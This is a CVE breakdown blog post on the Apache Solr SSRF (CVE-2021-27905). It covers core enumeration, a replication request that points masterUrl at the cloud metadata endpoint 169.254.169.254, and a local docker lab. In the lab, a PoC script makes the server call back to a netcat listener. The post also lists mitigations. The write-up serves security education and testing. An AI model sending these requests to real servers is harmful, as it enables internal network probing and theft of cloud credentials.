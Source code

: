 ```yaml
---
title: "CVE-2021-27905"
date: 2025-10-19
draft: false
summary: "Understanding CVE-2021-27905 - Apache Solr SSRF"
tags: ["ssrf", "blog"]
categories: ["blog"]
series: ["cve breakdown"]
showToc: true
cover:
  image: "https://cdn.ziomsec.com/cve-2021-27905/cover.webp"
  caption: "CVE-2021-27905 Apache Solr SSRF"
  alt: "Apache Solr Cover"
---
```


While performing a security assessment, I came across this vulnerability and did some research on what it was and how it could potentially be exploited in real-world scenarios...

Field | Value
-- | --
CVE | CVE-2021-27905
CVSSv3 | 9.8 (CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)
Affected Version | Apache Solr <= 8.8.1
Fixed In | Apache Solr 8.8.2
CWE | CWE-918 (SSRF)
Official Advisory | [Apache Solr](https://lists.apache.org/thread/90kct018gfdnvh9wh5xvt0grm9jk2l80)

## About CVE-2021-27905

**CVE-2021-27905** is a Server Side Request Forgery vulnerability affecting **Apache Solr** prior to version **8.8.2** that allows remote attackers to make arbitrary HTTP requests to internal or external systems through the replication handler's `masterUrl` parameter, potentially exposing internal services or sensitive cloud metadata.

> **Note**: The script and lab used in this blog can be found on my [Github](https://github.com/RIZZZIOM/CVE-2021-27905)

## Background

**Apache Solr** is an open-source search platform built on top of **Apache Lucene** (a Java search library). Think of it as a powerful, customizable "search-as-a-service" engine that developers embed in their own applications. It is used for the following reasons:
- **Full-text search:** indexing and searching documents, logs, or websites quickly.
- **Faceted navigation:** like ecommerce filters (brand, price, category).
- **Analytics:** Solr can run queries with aggregations and sorting efficiently.
- **Scalability:** multiple Solr servers can act as a distributed cluster (SolrCloud).

So in most companies, Solr runs inside their internal network, powering searches for websites, product catalogs, enterprise data, or logs.

### Solr Architecture

Solr runs as a Java web service (typically on port 8983). It exposes a REST-like HTTP API; so almost everything we do (search, upload, admin) is an HTTP request. 

| Component      | Description                                                                                                                                              |
| -------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Core**       | A single, independent index within a Solr instance. Each core has its own configuration (`solrconfig.xml`, `schema.xml`) and set of indexed data.        |
| **Collection** | In SolrCloud mode, a “collection” is spread across multiple **cores** on different servers (shards + replicas).                                          |
| **Handlers**   | Endpoints defined in `solrconfig.xml` that perform functions, e.g. `/select` for queries, `/update` for adding docs, `/replication` for syncing indexes. |
| **Admin API**  | `/solr/admin/...` endpoints that show info or perform management tasks.                                                                                  |

Since, identifying a valid `core` is crucial for exploiting the vulnerability, let us understand what a Core is...

### Solr `Cores` And Replication Handlers

A `Core` is a self contained search index + its configuration. For example, we might have:

```
/solr/products
/solr/blog
/solr/logs
```

Each of these is a core. Internally, Solr stores each core's data in

```
/var/solr/data/<CORE_NAME>/
```

There are multiple ways to find core names:
1. Admin API: the admin API endpoint can be used to query core names.

```
curl 'http://IP:PORT/solr/admin/cores?indexInfo=false&wt=json'
```

2. Web UI: when Solr runs without authentication, the base UI itself lists cores in the dropdown menu.

![](https://cdn.ziomsec.com/cve-2021-27905/cores_dropdown.webp)

3. Brute force: in many environments, admins follow predictable names like `gettingstarted`, `collection1`, `core0`, `logs`, `products`, `data`, `search` etc. These parts can be brute forced. 

Once we identify a core name, we can construct our replication endpoint. For example, if the core name is `gettingstarted`, the replication endpoint becomes:

```
/solr/gettingstarted/replication
```

Replication is a Solr feature. When we have multiple Solr nodes (leader-follower setup), we need the followers to copy the latest index files from the leader. This is done using the `ReplicationHandler`.

The request made for replication looks like this:

```
http://IP:PORT/solr/<core>/replication?command=fetchindex&masterUrl=http://leader.internal:8983/solr/<core>
```
> The follower fetches index  data from the leader's URL.

**This is where the vulnerability lies...**

### SSRF

The replication feature is handled by 2 main classes inside **`solr-core`**:
1. **`org.apache.solr.handler.ReplicationHandler`** - this parses the incoming replication requests and reads the `masterUrl` / `leaderUrl` from the HTTP request. In the affected versions, these parameters were not validated.
2. **`org.apache.solr.handler.IndexFetcher`** - this uses that URL to perform the actual HTTP request and pull index files from the provided location. 

Because **`ReplicationHandler`** failed to validate the `masterUrl`, attackers could supply any arbitrary URL. If the URL pointed to an external source, Solr would connect to it.

Anyone who could reach the HTTP port, could send a request given below and make Solr fetch an internal resource:

```
http://IP:PORT/solr/gettingstarted/replication?command=fetchindex&masterUrl=http://169.254.169.254/latest/meta-data/
```

This caused Solr to make an outbound request from the server itself, leading to **Server-Side Request Forgery (SSRF)**.

## Exploiting The Vulnerability

### Lab Setup

- A local lab can be setup by running the following commands:

```shell
# clone the repository
git clone https://github.com/RIZZZIOM/CVE-2021-27905.git
cd CVE-2021-27905/lab/ # contains docker-compose.yml

# run Apache Solr 8.10.1 using docker
docker compose up -d

# verify accessibility
docker ps
curl 'http://127.0.0.1:8983/solr'
# By default, the loopback IP is used to host Solr, to make it accessible externally, you can edit the 'docker-compose.yml' file. 
```

> In the lab, since we started Solr for the first time with `solr-precreate gettingstarted`, it automatically created a core named `gettingstarted` using the default configset.

### Blind SSRF

- Since our Solr instance is running on 8983, we can make the server make a callback to another system on the same network.
- Start a netcat listener on a different system:

```shell
nc -lnvp 1337
```

- Then we can run the PoC to get a callback on our **netcat** listener:

```shell
$ python3 cve-2021-27905.py --target http://127.0.0.1:8983 --payload http://192.168.1.103:1337/test
[+] Performing SSRF
[+] SSRF Exploit Sent Successfully
```

![](https://cdn.ziomsec.com/cve-2021-27905/ssrf_callback.webp)

> While researching this topic, I came across a blog post that demonstrates how it's even possible to achieve **RCE** through this method. It's definitely worth a read for anyone interested:  https://www.hacefresko.com/posts/rce-on-solr-server-via-replication

## Mitigations

Solr maintainers patched this vulnerability by fixing the `ReplicationHandler` to:
- Validate that `masterUrl` / `leaderUrl` points only to approved hosts.
- Restrict acceptable URL schemas (`http`, `https`)
- Harden remote streaming features.
- Recommend admins to secure `/replication` with authentication or remove it entirely if unused.

## References

- https://svn.apache.org/repos/infra/sites/solr/docs/8_8_1/solr-core/org/apache/solr/handler/ReplicationHandler.html
- https://nvd.nist.gov/vuln/detail/CVE-2021-27905
- https://github.com/veracode-research/solr-injection
- https://issues.apache.org/jira/browse/SOLR-15217

---

That concludes my blog!
Until next time :)

---

